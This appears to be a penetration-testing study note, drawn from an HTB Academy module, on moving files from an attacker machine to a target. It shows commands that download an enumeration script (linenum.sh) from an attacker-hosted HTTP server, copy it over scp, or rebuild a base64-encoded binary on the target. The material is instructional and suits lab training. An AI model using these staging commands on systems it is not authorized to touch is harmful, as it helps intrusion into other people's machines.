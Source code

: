 ```yaml
---
id: Transferring Files
aliases: []
tags:
  - Pentest/General/Transferring-Files
---
```


# Transferring files

- [HTB Academy - Transferring Files](https://academy.hackthebox.com/module/77/section/849)

## Python HTTP Server

Run a [Python HTTP Server](https://developer.mozilla.org/en-US/docs/Learn_web_development/Howto/Tools_and_setup/set_up_a_local_testing_server)
on the attacker machine and use **wget** or **curl** to download the file(s) to
the remote host

**Attacker**: Run Python HTTP server

```sh
python3 -m http.server 8000
```

**Target**: Acquire the files from the remote host

```sh
wget http://10.10.14.1:8000/linenum.sh
```

```sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

It is possible to transfer files using `scp` once

- SSH connection is established
- User credentials are known

**Attacker**: Copy the file to the remote machine

```sh
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Base64

It may be not possible to transfer files if (for example) the remote host has
firewall protection.

**Attacker**: Encode the binary file to base64

```sh
base64 file.ext -w 0
```

**Target**: Copy the base64 string, decode it, and pipe it into a file

```sh
echo f0VMRgIBAQAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaiXSInmDwU | base64 -d > file.ext
```

## Validate File Transfers

Validate the format of the file

```sh
file file.ext
```

**Attacker**: Run a `md5sum` on the file

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```

**Target**: Run `md5sum` to validate the hash

```sh
md5sum file.ext

321de1d7e7c3735838890a72c9ae7d1d file.ext
```
